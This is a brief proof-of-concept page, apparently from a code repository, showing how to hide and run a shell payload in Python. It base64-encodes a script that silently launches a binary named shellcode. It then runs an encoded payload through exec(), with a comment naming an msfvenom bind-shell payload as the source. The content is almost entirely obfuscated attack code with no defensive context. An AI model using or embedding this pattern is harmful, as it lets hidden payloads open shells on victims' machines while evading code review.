 # POC

## Generate base64 encoded payload

```bash
$: cat shellcode.py | base64
aW1wb3J0IHN1YnByb2Nlc3MKaW1wb3J0IG9zCgp3aXRoIG9wZW4ob3MuZGV2bnVsbCwgInciKSBh
cyBmOgogICAgc3VicHJvY2Vzcy5Qb3BlbihbIi91c3IvYmluL3NoZWxsY29kZSJdLCBzdGRvdXQ9
Ziwgc3RkZXJyPWYp
```

## Execute base64 inside a python script

```python
# From msfvenom -p python/shell_bind_tcp > shell.py
exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')(<base64>)[0]))
```
